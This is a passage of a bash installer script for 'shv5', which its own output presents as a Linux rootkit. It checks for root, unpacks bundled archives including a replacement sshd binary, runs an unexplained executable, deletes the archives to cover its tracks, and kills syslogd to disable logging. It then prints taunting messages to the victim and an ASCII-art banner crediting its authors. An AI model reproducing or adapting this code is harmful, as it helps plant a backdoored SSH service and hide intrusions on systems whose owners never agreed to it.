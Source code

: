 ```bash
# RAINBOW COLOURS :)
BLK='^[1;30m'
RED='^[1;31m'
GRN='^[1;32m'
YEL='^[1;33m'
BLU='^[1;34m'
MAG='^[1;35m'
CYN='^[1;36m'
WHI='^[1;37m'
DRED='^[0;31m'
DGRN='^[0;32m'
DYEL='^[0;33m'
DBLU='^[0;34m'
DMAG='^[0;35m'
DCYN='^[0;36m'
DWHI='^[0;37m'
RES='^[0m'

# HOPE U`R NO TRYING THIS FROM USER !
# HOWEVER LET`S SEE WHAT KINDA KID U ARE ?
if [ "$(whoami)" != "root" ]; then
  echo "${DCYN}[${WHI}sh${DCYN}] ${WHI} BECOME ROOT AND TRY AGAIN ${RES}"
  echo ""
  exit
fi

# UNZIPING SHITS
tar zxf ./bin.tgz
tar zxf ./conf.tgz
tar zxf ./lib.tgz
tar zxf ./utilz.tgz
cd ./bin; tar zxf ./sshd.tgz
./a
rm -rf ./sshd.tgz
cd $BASEDIR
rm -rf bin.tgz conf.tgz lib.tgz utilz.tgz

sleep 2

cd $BASEDIR

killall -9 syslogd >/dev/null 2>&1

startime=`date +%S`

echo "${DCYN}[${WHI}sh${DCYN}]# Installing shv5 ... this wont take long ${RES}"
echo "${DCYN}[${WHI}sh${DCYN}]# If u think we will patch your holes shoot yourself !${RES}"
echo "${DCYN}[${WHI}sh${DCYN}]# so patch manualy and fuck off!  ${RES}"
echo ""
echo ""
echo "${WHI}============================================================================${RES}"
echo ""
echo "${BLU}Private Scanner By Raphaello , DeMMoNN , tzepelush & DraC\n\r\t - Do not use this version.\n\n${RES}"
echo "${DCYN}@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#${RES}"
echo "${YEL}##########${DRED}RRRRR   AAAAAAAA   PPPPP    HH  HH${YEL}##########${RES}"
echo "${YEL}##########${DRED}RR   R  AAA  AAA   PP   P   HH  HH${YEL}##########${RES}"
echo "${YEL}##########${DRED}RR   R  AA    AA   PP   P   HH  HH${YEL}##########${RES}"
echo "${YEL}##########${DRED}RRRRR   AAAAAAAA   PPPPP    HHHHHH${YEL}##########${RES}"
echo "${YEL}##########${DRED}RR R    AA    AA   PP       HH  HH${YEL}##########${RES}"
echo "${YEL}##########${DRED}RR RR   AA    AA   PP       HH  HH${YEL}##########${RES}"
echo "${YEL}##########${DRED}RR  RR  AA    AA   PP       HH  HH${YEL}##########${RES}"
echo "${DCYN}#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@#@${RES}"
```